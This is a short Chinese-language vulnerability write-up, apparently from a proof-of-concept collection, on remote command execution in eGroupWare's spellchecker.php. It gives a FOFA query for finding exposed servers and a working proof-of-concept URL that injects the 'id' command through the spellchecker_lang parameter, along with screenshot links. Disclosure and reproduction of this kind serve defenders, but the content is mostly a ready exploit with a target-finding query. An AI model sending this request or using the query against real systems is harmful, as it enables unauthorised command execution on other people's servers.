 # eGroupWare spellchecker.php 远程命令执行漏洞

## 漏洞描述

*eGroupWare*是一个多用户，在以PHP为基础的API上的定制集为基础开发的，以WEB为基础的工作件套装，其中 spellchecker.php 文件中存在命令执行漏洞

## 漏洞影响

```
eGroupWare
```

## FOFA

```
app="EGROUPWARE-产品"
```

## 漏洞复现

登录页面

![image-20220524171233435](./images/202205241712519.png)

验证POC

```
/egroupware/phpgwapi/js/fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php?spellchecker_lang=egroupware_spellchecker_cmd_exec.nasl%7C%7Cid%7C%7C
```

![image-20220524171251702](./images/202205241712784.png)